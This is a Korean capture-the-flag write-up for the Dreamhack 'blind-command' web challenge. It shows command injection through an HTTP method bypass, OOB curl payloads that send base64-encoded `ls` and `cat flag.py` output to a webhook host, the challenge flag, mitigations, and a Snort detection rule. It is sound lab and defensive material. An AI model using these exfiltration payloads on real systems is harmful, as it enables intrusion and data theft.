






# [Dreamhack] Blind Command - Web Hacking

## 1. 문제 개요

* **문제 링크:** [Dreamhack - blind-command](https://dreamhack.io/wargame/challenges/73)

* **분야:** Web

* **목표:** Command Injection 취약점과 Out-of-Band(OOB) 기법을 이용하여 서버 내부의 `flag.py` 파일 탈취.

## 2. 취약점 분석
제공된 `app.py` 소스 코드를 분석한 결과, HTTP 메소드 검증 우회 및 사용자 입력값이 쉘 명령어로 직접 실행되는 것을 확인.

```python
# ... (중략) ...
@app.route('/' , methods=['GET'])
def index():
    cmd = request.args.get('cmd', '')
    if not cmd:
        return "?cmd=[cmd]"

    if request.method == 'GET':
        ''
    else:
        # [!] 취약점 발생: 사용자 입력값(cmd)이 필터링 없이 시스템 명령어로 직접 실행됨
        os.system(cmd)
    return cmd
# ... (중략) ...
```

* **분석 결론:** `if request.method == 'GET':` 조건으로 인해 일반적인 GET 요청은 무시되지만, 라우팅을 통과할 수 있는 `HEAD` 또는 `OPTIONS` 메소드로 변조 시 우회 가능. 또한 `os.system()` 함수는 결과를 화면에 반환하지 않는 Blind 환경이므로, `curl` 등을 이용해 외부 서버로 결과를 전송하는 OOB(Out-of-Band) 기법 필요.

## 3. 공격 수행
Burp Suite를 활용하여 HTTP 메소드를 변조하고, 외부 웹훅 서버를 통해 명령어 실행 결과를 수신. 줄바꿈 등으로 인한 전송 오류를 방지하기 위해 명령어 결과를 `base64`로 인코딩하여 전송.

### 3.1. 파일 목록 확인

1. Burp Suite의 Repeater를 사용하여 HTTP 메소드를 `HEAD`로 변경. 현재 디렉터리의 파일 목록을 확인하기 위해 `ls` 명령어의 결과를 `base64`로 인코딩하여 외부 웹훅 서버로 전송하는 페이로드 삽입.

- 원본 페이로드: `curl "https://jofahed.request.dreamhack.games/?d=$(ls | base64)"`



2. 외부 웹훅(Request Bin) 서버에 접속하여 쿼리 스트링(`d=`)으로 전달된 Base64 인코딩 데이터 확인.



3. 수신한 Base64 데이터를 Burp Decoder를 통해 디코딩하여 타겟 파일인 `flag.py` 존재 확인.



### 3.2. 플래그 파일 획득

4. 식별된 `flag.py` 파일의 내용을 읽기 위해, `cat flag.py` 명령어를 `base64`로 인코딩하여 전송하도록 페이로드 수정 후 재전송.

- 원본 페이로드: `curl "https://jofahed.request.dreamhack.games/?d=$(cat flag.py | base64)"`



5. 웹훅 서버에 새롭게 수신된 Base64 인코딩 데이터 확인.



## 4. 획득 결과
수신된 데이터를 디코딩하여 최종 서버 플래그 출력 확인.



* **FLAG:** `DH{4c9905b5abb9c3eb10af4ab7e1645c23}`

## 5. 대응 방안
사용자 입력값을 쉘 명령어의 인자로 직접 전달하여 발생하는 취약점이므로, 시스템 명령어 호출을 최소화하고 안전한 함수를 사용하는 시큐어 코딩 적용 요망.

* **os.system 사용 지양 및 안전한 API 사용:** 파이썬의 경우 쉘을 직접 호출하는 `os.system` 대신 `subprocess.run` 등을 사용하고, `shell=True` 옵션을 제거하여 쉘 메타문자가 해석되는 것을 원천 차단.

* **입력값 검증 및 필터링 (화이트리스트):** 불가피하게 시스템 명령어를 사용해야 할 경우, 허용된 명령어 패턴만 실행되도록 화이트리스트 기반의 검증 로직 구현. `$`, `|`, `&`, `;`, `()` 등의 쉘 특수문자 입력 필터링.

## 6. 블루팀 관점 요약
보안관제 및 침해사고 대응 관점에서 Command Injection 및 OOB(Out-of-Band) 데이터 유출 공격 행위 탐지.

* **WAF 및 웹 서버 로그 분석:** Access 로그 모니터링 시, `GET`이 아닌 변조된 메소드(`HEAD`, `OPTIONS`)와 함께 파라미터(`?cmd=`)에 `curl`, `wget`, `base64` 등의 네트워크 유틸리티나 쉘 특수문자(`$()`, `|`)가 포함된 비정상적인 HTTP 트래픽 식별.

* **침해사고 대응 시나리오:** 특정 IP에서 비정상적인 명령어 치환 기호 삽입 시도가 탐지될 경우, 해당 시간대 웹 서버의 아웃바운드 트래픽 모니터링. 내부망에서 인가되지 않은 외부 도메인(Request Bin 등)으로의 DNS 쿼리 및 HTTP 요청 발생 여부를 조사하여 데이터 유출 검증.

* **네트워크 기반 탐지 룰 제안 (Snort):**

  - 파라미터 내 `curl` 명령어와 명령어 치환 문법이 결합된 OOB 페이로드 패턴 탐지.

  - `alert tcp $EXTERNAL_NET any -> $HTTP_SERVERS $HTTP_PORTS (msg:"[Web] Command Injection OOB Payload Detected"; flow:to_server,established; content:"cmd="; http_uri; pcre:"/cmd=.*(?:curl|wget).*\$\(.*(?:ls|cat|base64)/i"; sid:1000003; rev:1;)`